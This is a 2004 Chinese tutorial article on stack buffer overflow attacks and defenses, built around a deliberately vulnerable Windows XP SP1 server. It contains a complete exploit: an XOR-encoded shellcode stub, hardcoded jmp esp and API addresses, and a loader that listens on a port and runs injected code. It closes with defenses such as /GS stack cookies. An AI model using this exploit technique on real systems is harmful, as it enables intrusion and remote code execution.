



+++
title = '缓冲区溢出攻防'
date = 2004-04-13T09:17:00+08:00
categories = ['技术']
+++

**本文发表于《CSDN开发高手》2004年第4期**   [源码](https://github.com/localvar/backup/tree/master/OverFlow)

很久以来，在人们心目中，“黑客”和病毒作者的身上总是笼罩着一层神秘的光环，他们被各种媒体描述成技术高手甚至技术天才，以至于有些人为了证明自己的“天才”身份而走上歧途，甚至违法犯罪。记得不久前就看到过这样一个案例：一位计算机专业研究生入侵了一家商业网站并删除了所有数据。当他在狱中接受记者的采访时，他非常自豪地说这样做只是为了证明自己和获得那种成就感。

本文讨论的缓冲区溢出攻击实际上是一项非常“古老”的技术，但它的破坏力依然不可小视——相信大家都还没有忘记几个月之前的“冲击波”。文中的代码实例几乎就是一个真实的病毒了，其中的一些技术你可能没有见过，但我可以很负责任的说它没有使用任何高深的技术，我没有进ring0，没有写设备驱动，甚至连汇编代码也只用了非常简单的11句。我希望此文能让大家重新认识一下“黑客”和病毒作者，把他们从神坛上“拉”下来。我更要提醒大家把那位“研究生”作为前车之鉴，不要滥用这项技术，否则必将玩火自焚。下面就进入正题。

# 什么是缓冲区溢出

你一定用strcpy拷贝过字符串吧？那，如果拷贝时目的字符串的缓冲区的长度小于源字符串的长度，会发生什么呢？对，源字符串中多余的字符会覆盖掉进程的其它数据。这种现象就叫缓冲区溢出。根据被覆盖数据的位置的不同，缓冲区溢出分为静态存储区溢出、栈溢出和堆溢出三种。而发生溢出后，进程可能的表现也有三种：一是运行正常，这时，被覆盖的是无用数据，并且没有发生访问违例；二是运行出错，包括输出错误和非法操作等；第三种就是受到攻击，程序开始执行有害代码，此时，哪些数据被覆盖和用什么数据来覆盖都是攻击者精心设计的。

一般情况下，静态存储区和堆上的缓冲区溢出漏洞不大可能被攻击者利用。而栈上的漏洞则具有极大的危险性，所以我们的讲解也以栈上的缓冲区溢出为例。

# 攻击原理

要进行攻击，先得找到靶子。所以我就准备了一个叫做“victim”的程序作为被攻击对象，它在逻辑上等价于下面的代码：

```cpp
void GetComputerName(SOCKET sck, LPSTR szComputer)
{
    char szBuf[512];
    recv(sck, szBuf, sizeof(szBuf), 0);
    LPSTR szFileName = szBuf;
    while((*szFileName) == '\\')
        szFileName++;
    while((*szFileName) != '\\' && (*szFileName) != '\0')
    {
        *szComputer = *szFileName;
        szComputer++;
        szFileName++;
    }
    *szComputer = '\0';
}

void ShowComputerName(SOCKET sck)
{
    char szComputer[16];
    GetComputerName(sck, szComputer);
    //    mov        ecx,dword ptr [esp+4]
    //    sub         esp,10h; ---②
    //    lea          eax,[esp]
    //    push        eax
    //    push        ecx
    //    call         GetComputerName (401000h)
    printf(szComputer);
    //    lea          edx,[esp]
    //    push        edx
    //    call         printf (401103h)
}
    //    add         esp,14h
    //    ret          4; ---③

int __cdecl main(int argc, char* argv[])
{
    WSADATA wsa;
    WSAStartup(MAKEWORD(2,2), &wsa);
    struct sockaddr_in saServer;
    saServer.sin_family = AF_INET;
    saServer.sin_port = 0xA05B;    //htons(23456)
    saServer.sin_addr.s_addr=ADDR_ANY;
    SOCKET sckListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    bind(sckListen, (sockaddr *)&saServer, sizeof(saServer));
    listen(sckListen, 2);
    SOCKET sckClient = accept(sckListen, NULL, NULL);// ---①
    ShowComputerName(sckClient);
    closesocket(sckClient);
    closesocket(sckListen);
    WSACleanup();
    return 0;
}
```

victim程序的本意是从网络上接收一个UNC（Universal Naming Convention）形式的文件名，然后从中分离出机器名并打印在屏幕上。由于正常情况下，机器名最多只有16个字节，所以ShowComputerName函数也只给szComputer分配了16个字节长的缓冲区，并且GetComputerName也没有对缓冲区的长度做任何检查。这样，ShowComputerName中就出现了一个缓冲区溢出漏洞。

找到了漏洞，下一步要做的就是分析漏洞来找到具体的攻击方法。我们来看一下ShowComputerName的编译结果，每条c/c++语句下面注释中就是其编译后对应的汇编代码。对这些代码，我要说明两点：①这里使用的是stdcall调用约定，它是windows程序中最常用的调用约定，下文中的示例代码如果没有特别说明都将使用这种约定。有关各种调用约定的含义和区别，请参考相关资料。②因编译器、编译选项的不同，编译结果也可能不一样，后面的攻击代码是根据上面的编译结果编写的，我无法保证它在你的环境中也能正确执行。

我在程序中标注了三个标号，下图从左至右分别是程序执行完三个标号对应的代码后堆栈的状态及esp寄存器的指向，其中每个小格代表一个字，即四字节。



从图中可以看出，当main调用ShowComputerName时，程序会首先将它的参数压栈，然后再将其执行完毕后的返回地址压栈。进入ShowComputerName后，程序再调整esp寄存器，为局部变量分配存储空间。而ShowComputerName返回时执行的“ret 4”指令不仅让程序跳转到返回地址继续运行，还会将返回地址、函数参数从栈中弹出，使栈恢复到调用前的状态。

很明显，如果UNC字符串中的机器名超过了16字节，函数ShowComputerName就会发生缓冲区溢出。为了讲解方便，下面我就开始从攻击者的角度来分析如何构造这个字符串才能让程序执行一些“意外”的代码。

你可能已经发现：函数ShowComputerName的返回地址就存放在“szComputer+16”处。所以，如果我们能把返回地址改成“szComputer+20”，并从地址“szComputer+20”开始填上一些我们需要的指令对应的数据，那么我们就能达到目的了。很高兴你能想到这些，但这是不可能的，因为我们既要根据szComputer来构造字符串，又要在szComputer确定前完成构造完字符串。所以，此路不通，我们必须拐个弯才行。

如果你还注意到cpu执行完“ret 4”指令后，esp指向“szComputer+24”处，那么你已经看到该在哪拐弯了。绝大多数情况下，我们能在进程的地址空间中找到一条拥有固定地址“jmp esp”指令，我们只需在“szComputer+16”处填上这条指令的地址，然后再从“szComputer+24”开始填入攻击指令就可以了。这样，ShowComputerName返回时，cpu执行“ret 4”指令，再执行“jmp esp”指令，控制权就转移到我们手里了。怎么样？很简单吧！

不过你还不要高兴得太早，上面所说的只是缓冲区溢出攻击的基本原理。而理论与实际永远是有一段距离的。要真正完成攻击，我们还有好几个棘手的问题需要解决。

首先是是如何处理一些不允许出现在字符串中的字符。在上面的代码中，如果我们构造的字符串的某个字节是0或者“/”，GetComputerName就会拒绝拷贝后面的数据，所以在我们的“计算机名”中不能有任何一个字节是0或“/”。“/”可能还好说一点，但一段“真正能做点事情”的代码不包括0几乎是不可能的。怎么解决这个矛盾呢？最简单的方法是异或。先写好真正的代码并编译得到结果，我称它为stubcode。然后找一个数字n，要求①0≤n≤255；②n是允许出现在字符串中的字符；③n与stubcode的任何一个字节异或后都是允许出现的字符。用n与stubcode逐字节进行异或，得到异或结果。很明显，要找到这样一个n，stubcode就不能太长，只是做一些简单的准备工作，然后加载后续代码完成更多的工作，这也是我把它称为stubcode的原因。其实stubcode代码也需要一个stubcode，我们就把它称为stubstubcode吧，它的任务是用n与异或结果再逐字节异或一次来恢复stubcode的原貌，然后把控制权交给stubcode。stubstubcode非常短，只有20个字节左右，通过精心设计就可能避免在其中出现不允许的字符。

由于前面的分析已经证明不可能在我们构造的字符串中放上一条“jmp esp”，并修改返回地址指向它，所以第二个难题就是到哪去找“jmp esp”指令了。你可能认为进程自身是首选，因为exe文件具有固定的装入地址，只要它包含这条指令，那么指令的地址就是确定的。但我不得不遗憾的告诉你，又错了。虽然exe的装入地址不会变，但这个地址一般较低，因而找到的“jmp esp”的地址的高字节肯定是0，它不是stubcode，我们没办法对它进行异或处理。如果你看过拙作[《NT环境下进程隐藏的实现》]()，你肯定知道基本上每个进程都会加载kernel32.dll，且它的装入地址在同一操作系统平台上是固定的。而另一个重要事实是它的装入地址足够高，能够满足不含0字节这一要求。所以我们应该到kernel32.dll中去找。但是非常不幸，在我的winxp + sp1系统中，偌大的一个kernel32.dll，竟然没有一个“jmp esp”指令的藏身之地（我没有在其他系统上作过尝试，各位读者如有兴趣可以自己试一下）。我只好退而求其次，到user32.dll中去找了，它在系统中拥有仅次于kernel32.dll的地位。最终，我在地址0x77D437DB处发现了“jmp esp”的身影。

第三个问题是如何在stubcode中调用API。《进程隐藏》一文中对此也有讨论，但情况与现在有一些不同，因为stubcode中没有现成的输入表，所以我们需要自己制作一个小的“输入表”作为stubcode的参数写到UNC字符串中，stubcode还需要其他一些参数，我把这些参数统称为stubparam。而把stubstubcode、stubparam、stubcode以及其它数据合起来构成的UNC字符串称为stub。当然，对stubparam也需要做异或处理以避免在其中出现非法字符。

stubcode中也不能有直接寻址指令，原因很明显，解决办法也很简单（不让用就不用了😄 ），我就不再多说了。

# 攻击实例

我们的攻击程序名叫“attacker”，攻击成功后，它将使victim进程弹出下面的消息框。



attacker供给的第一步是把stub（也就是UNC字符串）发送给victim，所以我们就先来看一下stub的构成，如下图所示：



其中，填充数据1用来填充返回地址前的所有内容，本例就是szComputer占用的空间；返回地址就是“jmp esp”指令的地址；填充数据2用来填充返回地址和stubstubcode之间的内容，本例是参数sck占用的空间；stubstubcode、stubparam和stubcode前面已经讲过；填充数据3则用于将stub打扮成正常字符串的样子，例如，补上结尾处的0字符等。

为了使用更方便，我定义了几个结构来表示整个stub。你可以看到，它们被“#pragma pack”编译指令固定为一字节对齐，这很重要，因为它可以：①减小stub的大小。栈上可供使用的空间不多，所以stub越小越好；②阻止编译器插入用于对齐的额外字节。如果编译器在STUBSTUBCODE或STUB中插入了额外的字节，我们的一切努力都将付之东流。

```cpp
#pragma pack(push)
#pragma pack(1)

struct STUBSTUBCODE
{
    BYTE arrConst1[4];        //0x33, 0xC9, 0x66, 0xB9
    WORD wXorSize;            //需要进行异或处理的数据的大小
    BYTE arrConst2[3];        //0x8D, 0x74, 0x24
    BYTE byXorOffset;        //需要进行异或处理的代码的起始位置(相对于esp的偏移)
    BYTE arrConst3[4];        //0x56, 0x8A, 0x06, 0x34
    BYTE byXorMask;            //使用此数字进行异或
    BYTE arrConst4[8];        //0x88, 0x06, 0x46, 0xE2, 0xF7, 0x8D, 0x44, 0x24
    BYTE byEntryOffset;        //STUBCODE代码的入口地址(相对于esp的偏移)
    BYTE arrConst5[2];        //0xFF, 0xD0
};

struct STUBPARAM
{
    FxLoadLibrary fnLoadLibrary;
    FxGetProcAddr fnGetProcAddr;
    FxVirtualAlloc fnVirtualAlloc;
    DWORD dwImageSize;
    DWORD rvaAttackerEntry;
    char szWs2_32[11];        //ws2_32.dll
    char szSocket[7];        //socket
    char szBind[5];            //bind
    char szListen[7];        //listen
    char szAccept[7];        //accept
    char szSend[5];            //send
    char szRecv[5];            //recv
};

struct STUB
{
    BYTE arrPadding1[18];
    DWORD dwJmpEsp;
    BYTE arrPadding2[4];
    STUBSTUBCODE ssc;
    STUBPARAM sp;
    BYTE arrStubCode[1];    //实际上，这是一个变长数组
};

#pragma pack(pop)
```

STUBSTUBCODE对应的就是本文开头提到的11条汇编语句。参照stub的整体结构，我们不难写出它的具体实现。

```asm
xor ecx, ecx
       mov cx, wXorSize;            wXorSize是要进行异或处理的数据的大小
       lea esi, [esp+ byXorOffset];        byXorOffset是需要进行异或处理的代码的起始位置
       push esi
xormask:    mov al, [esi]
       xor al, byXorMask;            使用byXorMask进行异或
       mov [esi], al
       inc esi
       loop xormask
       lea eax, [esp + byEntryOffset];     byEntryOffset 是StubCode的入口地址
       call eax
```

其中的几个变量实际上要用常数替代，wXorSize是要进行异或处理的数据的大小，也就是stubparam和stubcode的大小的和；byXorOffset是这些数据的起始位置相对于esp寄存器的偏移，从结构图中可以看出它等于“sizeof(STUBSTUBCODE)”，同时，它加上esp后就是STUBPARAM的地址，我们要把这个地址传给stubcode，所以立即把它压进了栈中，具体请见下面的相关内容；byXorMask是异或掩码，也就是前面提到的数字n；byEntryOffset是stubcode的入口相对于esp寄存器的偏移，它等于“sizeof(STUBSTUBCODE)+ sizeof(STUBPARAM)+4”，多加一个4是因为前面又向栈里压了一个数。这段代码的前两句没用更直接的“mov ecx, wXorSize”则是为了避免出现0字符。

把代码和结构体对比一下，看明白了吧!结构体中的几个数组对应的是汇编代码中固定不变的部分，变量则是需要经常修改的部分。这种定义让我们有机会动态修改stubstubcode，减少手工的代码维护工作。

STUBPARAM定义的是要传递给stubcode的参数，它比较简单，相信你看完后面对stubcode的介绍，就能明白各成员的含义和作用了。其中所有以“Fx”为前缀的数据类型都是其相应函数的指针类型，后文还会遇到。

在STUB中，我给了第一个填充数组18字节的空间，多出来的两字节用来存储UNC字符串中打头的“//”，本例中这并不是必须的。而arrStubCode虽然看上去只有一字节长，却是一个变长数组，保存的是结构图中的stubcode和填充数据3。

下面我们就进入stub的最后一部分，也是最重要的一部分：stubcode，代码如下。

```cpp
void WINAPI StubCode(STUBPARAM* psp)
{
    HINSTANCE hWs2_32 = psp->fnLoadLibrary(psp->szWs2_32);
    FxGetProcAddr fnGetProcAddr = psp->fnGetProcAddr;
    Fxsocket fnsocket = (Fxsocket)fnGetProcAddr(hWs2_32, psp->szSocket);
    Fxbind fnbind = (Fxbind)fnGetProcAddr(hWs2_32, psp->szBind);
    Fxlisten fnlisten = (Fxlisten)fnGetProcAddr(hWs2_32, psp->szListen);
    Fxaccept fnaccept = (Fxaccept)fnGetProcAddr(hWs2_32, psp->szAccept);
    Fxsend fnsend = (Fxsend)fnGetProcAddr(hWs2_32, psp->szSend);
    Fxrecv fnrecv = (Fxrecv)fnGetProcAddr(hWs2_32, psp->szRecv);

    BYTE* buf = (BYTE*)psp->fnVirtualAlloc(NULL, psp->dwImageSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    SOCKET sckListen = fnsocket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    struct sockaddr_in saServer;
    saServer.sin_family = AF_INET;
    saServer.sin_port = 0x3930;    //htons(12345)
    saServer.sin_addr.s_addr = ADDR_ANY;
    fnbind(sckListen, (sockaddr *)&saServer, sizeof(saServer));
    fnlisten(sckListen, 2);
    SOCKET sckClient = fnaccept(sckListen, NULL, 0);

    fnsend(sckClient, (const char*)(&buf), 4, 0);
    DWORD dwBytesRecv = 0;
    BYTE* pos = buf;
    while(dwBytesRecv < psp->dwImageSize)
    {
        dwBytesRecv += fnrecv(sckClient, (char*)pos, 1024, 0);
        pos = buf + dwBytesRecv;
    }

    FxAttackerEntry fnAttackerEntry = (FxAttackerEntry)(buf + psp->rvaAttackerEntry);
    fnAttackerEntry(buf, psp->fnLoadLibrary, psp->fnGetProcAddr);
}

void StubCodeEnd(){}        //this function marks the end of stubcode
```

stubcode先用LoadLibrary得到ws2_32.dll的句柄，然后通过GetProcAddress获得几个API函数的入口地址。接着它用VirtualAlloc分配了dwImageSize大小的内存，这块内存有什么用呢？原来，同《进程隐藏》一样，我们要向victim进程中注入另一个PE文件——其实就是attacker自己——的映像，所以，这块内存就是保存映像的空间，而dwImageSize也就是这个映像的大小。之后它开始在12345端口上侦听，直到接到attacker连接请求。

与attacker建立连接后，StubCode会立即将刚才分配的内存的起始地址发过去，attacker要根据这个地址对自身的一个拷贝进行重定位，然后将它发回StubCode。StubCode则把这个拷贝接收到刚才分配的内存中去。Attacker还有另外一个函数“AttackerEntry”，rvaAttackerEntry就是这个函数与attacker的装入地址的距离。通过这个距离，StubCode就可以在attacker的拷贝中找到AttackerEntry的入口，从而把控制权转交给它。至此，StubCode就完成了自己的使命。

代码中使用LoadLibrary和GetProcAddress方式你不陌生吧？如果真的看不明白，请读一下《进程隐藏》。VirtualAlloc也位于kernel32.dll，所以我就照方抓药了。

上面的代码里还有一个空函数“StubCodeEnd”，虽然表面上什么也没做，但它却有一个非常重要的任务：我要用它来计算StubCode这个函数占了多少内存，并据此计算出整个stub的大小。用下面的方法就行了：

```cpp
int nStubCodeSize = (int)(((DWORD)StubCodeEnd) - ((DWORD)StubCode));
```

我没有从官方资料上找到可以这么做的依据，但在我的环境中，它确实工作的很好！

有了stub，我们还需要一些代码对其进行填充并注入到victim中去。注入过程只是简单的网络通讯，就不讲了，单看数据填充。

```cpp
BOOL PrepareStub(STUB* pStub)
{
    //copy const data
    memcpy(pStub, &g_stub, sizeof(STUB));
    //prepare stub code param
    pStub->dwJmpEsp = 0x77D437DB;        //这几个地址适用于
    pStub->sp.fnLoadLibrary = 0x77E5D961;    //victim程序运行在
    pStub->sp.fnGetProcAddr = 0x77E5B332;    //winxp pro + sp1 系统上
    pStub->sp.fnVirtualAlloc = 0x77E5AC72;     //的情况
    pStub->sp.dwImageSize = GetImageSize((LPCBYTE)g_hInst);
    pStub->sp.rvaAttackerEntry = ((DWORD)AttackerEntry) - ((DWORD)g_hInst);

    //copy stub code
    int nStubCodeSize = (int)(((DWORD)StubCodeEnd) - ((DWORD)StubCode));
    memcpy(pStub->arrStubCode, StubCode, nStubCodeSize);

    //find xor mask
    int nXorSize = (int)(sizeof(STUBPARAM) + nStubCodeSize);
    LPBYTE pTmp = (LPBYTE)(&(pStub->sp));
    BYTE byXorMask = GetXorMask(pTmp, nXorSize, (LPCBYTE)g_arrDisallow,
        sizeof(g_arrDisallow)/sizeof(g_arrDisallow[0]));
    if(byXorMask == g_arrDisallow[0])
        return FALSE;
    //xor it
    for(int i=0; i<nXorSize; i++)
        *(pTmp+i) ^= byXorMask;

    //fill stubstubcode
    pStub->ssc.wXorSize = (WORD)nXorSize;
    pStub->ssc.byXorMask = byXorMask;

    //Does the stubstubcode contains a disallowed char?
    pTmp = (LPBYTE)(&(pStub->ssc));
    for(i=0; i<sizeof(STUBSTUBCODE); pTmp++, i++)
        for(int j=0; j<sizeof(g_arrDisallow)/sizeof(g_arrDisallow[0]); j++)
            if(*pTmp == g_arrDisallow[j])
                return FALSE;
    //make it an "valid" file name the victim wants
    strcpy((char*)(&(pStub->arrStubCode[nStubCodeSize])), g_szStubTail);
    return TRUE;
}
```

其中，pStub指向一块事先分配的内存区，其大小是计算好的，绝对不会超支（我们是干这行的，肯定得先把自身的问题解决好:)）；g_stub是一个STUB类型的全局变量，保存了stub中固定不变的数据；g_hInst是attacker的进程的句柄，以它为参数调用GetImageSize就能得到attacker的内存映像的大小；g_arrDisallow是一个字符数组，里面是所有不允许出现的字符。

GetXorMask用于计算对stubparam和stubcode进行异或处理的掩码，代码如下：

```cpp
BYTE GetXorMask(LPCBYTE pData, int nSize, LPCBYTE arrDisallow, int nCount)
{
    BYTE arrUsage[256], by = 0;
    memset(arrUsage, 0, sizeof(arrUsage));
    for(int i=0; i<nSize; i++)
        arrUsage[*(pData + i)] = 1;
    for(i=0; i<256; i++)
    {
        by = (BYTE)i;
        //xor mask can not be a disallowed char
        for(int j=0; j<nCount; j++)
            if(arrDisallow[j] == by)
                break;
        if(j < nCount)
            continue;
        //after xor, the data should not contain a disallowed char
        for(j=0; j<nCount; j++)
            if(arrUsage[arrDisallow[j] ^ by] == 1)
                break;
        if(j >= nCount)
            return by;
    }
    //we don't find it, return the first disallowed char for an error
    return arrDisallow[0];
}
```

异或处理完毕后，PrepareStub要根据动态计算出来的数据，修改stubstubcode。由于数据是动态算出来的，所以需要对最终的stubstubcode做一个检查，看里面有没有不允许的字符。最后，它用g_szStubTail把stub填充为一个完整地UNC字符串，整个stub的准备工作宣告完成。

前面已经说过，stubcode的任务是在victim中建立一个attacker的映像，然后把控制权交给它里边的AttackerEntry函数。因而attacker的第二步工作是把自身的一个拷贝重定位后，发给stubcode。下面的代码就来完成这些任务：

```cpp
…
DWORD dwNewBase, dwSize;
LPBYTE pImage;
recv(sck, (char*)(&dwNewBase), sizeof(DWORD), 0);
dwSize = GetImageSize((LPCBYTE)g_hInst);
pImage = (LPBYTE)VirtualAlloc(NULL, dwSize,    MEM_COMMIT, PAGE_READWRITE);
memcpy(pImage, (const void*)g_hInst, dwSize);
RelocImage(pImage, (DWORD)g_hInst, dwNewBase);
DoInject(sck, pImage, dwSize);
…
```

attacker先从stubcode中获得它分配的内存的起始地址，这个地址就是attacker在victim中的映像基址。然后attacker把自身复制一份，并按照新的映像基址对这个拷贝进行重定位，RelocImage的代码与《进程隐藏》中的基本相同，这里不再重复。但要注意：默认情况下，链接器不会为EXE文件生成重定位表。所以链接attacker时，要加上参数“/FIXED:No”，强制链接器生成重定位表。DoInject完成数据发送，也是简单的网络通讯，所以略过不讲。

在victim中，控制权最终会传递到下面这个函数的手中。

```cpp
void WINAPI AttackerEntry(LPBYTE pImage, FxLoadLibrary fnLoadLibrary, FxGetProcAddr fnGetProcAddr)
{
    g_hInst = (HINSTANCE)pImage;
    if(LoadImportFx(pImage, fnLoadLibrary, fnGetProcAddr))
        AttackerMain(g_hInst);
    ExitProcess(0);
}
```

它同《进程隐藏》里的ThreadEntry很像，最大的不同是最后调用ExitProcess结束了victim的生命。这很好理解，victim的栈经过一系列的攻击之后，已经面目全非了，如果让AttackerEntry正常返回，victim肯定会弹出一个提示出现非法操作的对话框。我们在做“坏事”，不希望被发现，所以让victim悄无声息的退出无疑是最佳选择。

LoadImportFx和《进程隐藏》中的完全一致，也不再重复。至于AttackerMain，我的是下面的样子。你的——自己去发挥吧，但请切记你要为你所作的一切负责！

```cpp
DWORD WINAPI AttackerMain(HINSTANCE hInst)
{
    TCHAR szName[64], szMsg[128];
    GetModuleFileName(NULL, szName, sizeof(szName)/sizeof(TCHAR));
    _stprintf(szMsg, _T("进程/"%s/"存在缓冲区溢出漏洞,赶紧打补丁吧!"), szName);
    MessageBox(NULL, szMsg, _T("哈哈"), MB_OK|MB_ICONINFORMATION);
    return 0;
}
```

# 防御措施

有攻就有防，缓冲区溢出危害虽大，防起来却不难。最简单有效的方法莫过于写代码时小心一点了。比如在victim中，如果我们多传递给GetComputerName一个参数来标志缓冲区的长度，并在GetComputerName进行检查，那么悲剧就能避免了。

如果你比较懒，不想做这些琐事，编译器也能帮你。从vs.net开始，编译器支持了一个新的选项：/GS。打开它后，编译器就会检查每一个函数是否有发生溢出的可能。如果有，它就向这个函数中插入检测代码，比如前面的ShowComputerName经过处理后就会变成类似下面的样子。其中__security_cookie是编译器插入程序的一个全局变量，进程启动时，会根据大量信息使用哈希算法对它进行初始化，所以它的值具有很好的随机性（具体的初始化过程请见“seccinit.c”）。

```cpp
void ShowComputerName(SOCKET sck)
{
    DWORD_PTR cookie = __security_cookie;        //编译器插入的代码
    char szComputer[16];
    RecvComputerName(sck, szComputer);
    printf(szComputer);
    __security_check_cookie(cookie);        //编译器插入的代码
}
```

如代码所示，进入ShowComputerName后，程序所作的第一件事就是把__security_cookie 的值复制一份到局部变量cookie中。注意：cookie是ShowComputerName的第一个局部变量，所以它在栈中的位置是在返回地址和其它局部变量之间，如果拷贝字符串到szComputer中时发生了缓冲区溢出，cookie肯定先于返回地址被覆盖，而它的新值几乎没有可能继续与__security_cookie相同，因而函数最后的__security_check_cookie就可以使用下面的代码检测溢出了（这段代码其实不是给x86 cpu用的，但它更易理解，且逻辑上没有区别，具体请见“secchk.c”）。

```cpp
void __fastcall __security_check_cookie(DWORD_PTR cookie)
{
    /* Immediately return if the local cookie is OK. */
    if (cookie == __security_cookie)
        return;
    /* Report the failure */
    report_failure();
}
```

整个实现非常之简洁高效，不信就请试一下看看效果。但这种机制也有不足，一是检测到溢出后就会使程序终止运行；二是不能检测所有的溢出，还有漏网之鱼。具体就请参考相关资料和做实验吧。

# 谁之过

据说已发现的安全漏洞中有50%以上根缓冲区溢出有关，我们姑且不管这一数字是否准确，但它确实说明缓冲区溢出给计算机世界造成的危害的严重性。而人们也普遍认为是因为程序员的“不小心”才会有这么多的漏洞。但责任真的都应该程序员来负吗？我觉得不然。首先，x86 cpu的设计就有一些问题：函数的返回地址和普通数据放在同一个栈中，给了攻击者覆盖返回地址的机会；而栈从高地址向低地址的增长方向又大幅提高了这一几率。其次，c标准库设计时对内存占用和执行效率的斤斤计较又造就了许多类似strcpy的危险函数。当然，我并不想指责它们的设计者，我也没有资格，我只是想更深入的和大家讨论一下缓冲区溢出问题。
